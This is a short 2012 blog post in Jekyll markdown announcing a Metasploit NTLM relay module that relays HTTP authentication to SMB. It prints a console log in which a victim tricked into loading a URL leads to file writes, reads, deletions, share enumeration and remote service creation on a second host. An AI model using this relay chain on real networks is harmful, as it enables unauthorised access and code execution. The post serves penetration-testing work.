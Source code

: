 ---
author: mubix
comments: true
date: 2012-07-10 06:02:40+00:00
layout: post
title: Cross-Protocol Chained Pass the Hash for Metasploit
categories:
- metasploit
- pth
- smbrelay
---

Every so often someone writes a Metasploit Module that is pretty epic. Today is one such day:

![](/images/postimages/201207_pth_1.png)

Twitter Link: [https://twitter.com/webstersprodigy/status/222529916783169536](https://twitter.com/webstersprodigy/status/222529916783169536)

Which has a link to here: [https://github.com/rapid7/metasploit-framework/pull/589](https://github.com/rapid7/metasploit-framework/pull/589)

Demo / Example resource files: [https://skydrive.live.com/?cid=19794fac33285fd5&resid=19794FAC33285FD5!170&id=19794FAC33285FD5%21170](https://skydrive.live.com/?cid=19794fac33285fd5&resid=19794FAC33285FD5!170&id=19794FAC33285FD5%21170)

You can pull the fork w/ branch from here: [https://github.com/webstersprodigy/metasploit-framework/tree/module-http-ntlmrelay](https://github.com/webstersprodigy/metasploit-framework/tree/module-http-ntlmrelay)

And as soon as you do you can start doing this (**_using the example resource file to put a file, cat it out, enum shares available, list files on a share, then psexec all from a single URL being loaded_**):

163 address is the Victim I tricked into loading a URL and 182 is the system I want to get onto. This is an HTTP request resulting in a SMB Relay'd auth. It looks as though multiple targets can be used as relay targets but I haven't tested this out yet.

```
[*] 172.16.10.163 http_ntlmrelay - NTLM Request '/smb_put' from 172.16.10.163:52327
[*] 172.16.10.163 http_ntlmrelay - Beginning NTLM Relay...
[*] 172.16.10.163 http_ntlmrelay - SMB auth relay succeeded
[*] 172.16.10.163 http_ntlmrelay - File \\172.16.10.182\c$\secret.txt written
[*] 172.16.10.163 http_ntlmrelay - NTLM Request '/smb_get' from 172.16.10.163:52328
[*] 172.16.10.163 http_ntlmrelay - Beginning NTLM Relay...
[*] 172.16.10.163 http_ntlmrelay - SMB auth relay succeeded
[*] 172.16.10.163 http_ntlmrelay - Reading 13 bytes from 172.16.10.182
[*] 172.16.10.163 http_ntlmrelay - ----Contents----
[*] 172.16.10.163 http_ntlmrelay - hi ima secret
[*] 172.16.10.163 http_ntlmrelay - ----End Contents----
[*] 172.16.10.163 http_ntlmrelay - NTLM Request '/smb_enum' from 172.16.10.163:52329
[*] 172.16.10.163 http_ntlmrelay - Beginning NTLM Relay...
[*] 172.16.10.163 http_ntlmrelay - SMB auth relay succeeded
[*] 172.16.10.163 http_ntlmrelay - Shares enumerated 172.16.10.182 IPC$ ADMIN$ C$
[*] 172.16.10.163 http_ntlmrelay - NTLM Request '/smb_ls' from 172.16.10.163:52330
[*] 172.16.10.163 http_ntlmrelay - Beginning NTLM Relay...
[*] 172.16.10.163 http_ntlmrelay - SMB auth relay succeeded
[*] 172.16.10.163 http_ntlmrelay - Listed 13 files from 172.16.10.182c$
[*] 172.16.10.163 http_ntlmrelay - .rnd
[*] 172.16.10.163 http_ntlmrelay - PerfLogs
[*] 172.16.10.163 http_ntlmrelay - config.sys
[*] 172.16.10.163 http_ntlmrelay - inetpub
[*] 172.16.10.163 http_ntlmrelay - xampp
[*] 172.16.10.163 http_ntlmrelay - ProgramData
[*] 172.16.10.163 http_ntlmrelay - MSOCache
[*] 172.16.10.163 http_ntlmrelay - secret.txt
[*] 172.16.10.163 http_ntlmrelay - autoexec.bat
[*] 172.16.10.163 http_ntlmrelay - Windows
[*] 172.16.10.163 http_ntlmrelay - Users
[*] 172.16.10.163 http_ntlmrelay - Program Files
[*] 172.16.10.163 http_ntlmrelay - NTLM Request '/smb_rm' from 172.16.10.163:52332
[*] 172.16.10.163 http_ntlmrelay - Beginning NTLM Relay...
[*] 172.16.10.163 http_ntlmrelay - SMB auth relay succeeded
[*] 172.16.10.163 http_ntlmrelay - File \\172.16.10.182\c$\secret.txt deleted
[*] 172.16.10.163 http_ntlmrelay - NTLM Request '/smb_pwn' from 172.16.10.163:52333
[*] 172.16.10.163 http_ntlmrelay - Beginning NTLM Relay...
[*] 172.16.10.163 http_ntlmrelay - SMB auth relay succeeded
[*] 172.16.10.163 http_ntlmrelay - Obtraining a service manager handle...
[*] 172.16.10.163 http_ntlmrelay - Creating a new service
[*] 172.16.10.163 http_ntlmrelay - Closing service handle...
[*] 172.16.10.163 http_ntlmrelay - Opening service...
[*] 172.16.10.163 http_ntlmrelay - Starting the service...
```

Let the fun begin...